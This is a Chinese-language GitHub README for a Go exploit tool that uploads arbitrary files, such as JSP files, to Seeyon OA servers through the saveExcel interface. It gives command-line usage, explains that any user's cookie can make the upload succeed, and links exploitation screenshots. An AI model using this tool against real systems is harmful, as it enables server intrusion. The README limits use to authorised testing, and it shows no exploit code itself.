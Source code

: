 # 致远OA_saveExcel任意文件上传exp (2023/06版本修复) 

# Usage
```
Usage：go run seeyon_saveExcel.go -u http://xx.xx.xx.xx -f xx.jsp (-c)
```

```
Options:
  -c string
        cookie [Optional]
        
  -f string
        file [Required]
        
  -u string
        target url [Required]
```
# 利用截图

有可能存在漏洞接口但上传不成功的情况，可添加任意用户cookie进行后台上传

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/922f2e00-cb12-4c8f-bb2b-af46154780d3)

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/eed48758-2c5c-4b17-9c5b-944561862d0a)

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！
